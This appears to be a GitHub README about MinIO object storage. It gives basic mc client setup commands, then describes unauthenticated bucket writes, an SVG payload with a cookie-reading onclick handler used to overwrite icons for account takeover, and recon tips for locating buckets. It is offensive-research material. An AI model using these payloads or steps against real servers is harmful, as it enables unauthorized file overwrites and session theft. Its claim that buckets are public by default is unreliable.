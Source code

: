 <h1 align="center">
  <br>
  <a href=""><img src="/img/logo.png" alt="" width="300px;"></a>
  <br>
  <img src="https://img.shields.io/badge/PRs-welcome-blue">
  <img src="https://img.shields.io/github/last-commit/kh4sh3i/MinIO">
  <img src="https://img.shields.io/github/commit-activity/m/kh4sh3i/MinIO">
  <a href="https://twitter.com/intent/follow?screen_name=kh4sh3i_"><img src="https://img.shields.io/twitter/follow/kh4sh3i_?style=flat&logo=twitter"></a>
  <a href="https://github.com/kh4sh3i"><img src="https://img.shields.io/github/stars/kh4sh3i?style=flat&logo=github"></a>
</h1>




# MinIO
MinIO Object Storage 🧮

# Minio Console
To copy a file from your localhost to a MinIO server using the mc (MinIO Client), follow these steps:

## 1. Install mc client:
```
curl -O https://dl.min.io/client/mc/release/linux-amd64/mc
chmod +x mc
sudo mv mc /usr/local/bin/
```

## 2. Configure MinIO Client:
```
mc alias set myminio http://minio-server-url:9000 YOUR-ACCESS-KEY YOUR-SECRET-KEY

```

## 3. Copy a file from localhost to MinIO:
```
mc cp /home/user/example.txt myminio/mybucket/
```

# minio vunlenability
by default bucket is public and attacker can write file in minio bucket without any credential !

* default is :
```
mc alias set myminio/ http://MINIO-SERVER MYUSER MYPASSWORD
```

* in vulnerable server use :
```
mc alias set myminio/ http://MINIO-SERVER 
```

## ATO in minio
minio bucket with insufficient permissions that anyone can upload files and overwrite existing files . Attacker can upload malicious svg and overwrite existing icons and takeover any other users account that clicks on application icons such as "sort"

Example of malicious overwritten file :

```
<svg onclick="javascript:console.log(document.cookie)" width="16" height="16" viewBox="0 0 16 16" fill="none" xmlns="http://www.w3.org/2000/svg">
<path d="M2 12V10.6667H6V12H2ZM2 8.66667V7.33333H10V8.66667H2ZM2 5.33333V4H14V5.33333H2Z" fill="#13141F" fill-opacity="0.9"/>
</svg>
```
https://cdn.target.com/@foo-icon/sort.png


## find bucket url
default use @ in url 
```
https://cdn.target.com/@foo-banner/e0a9c740db7682.jpg?width=1920&quality=100

recon subdomani for find minio bucket subdomain : 
https://minio.target.app/foo-banner
```





# Refrence
[min.io](https://min.io/download?license=agpl&platform=linux)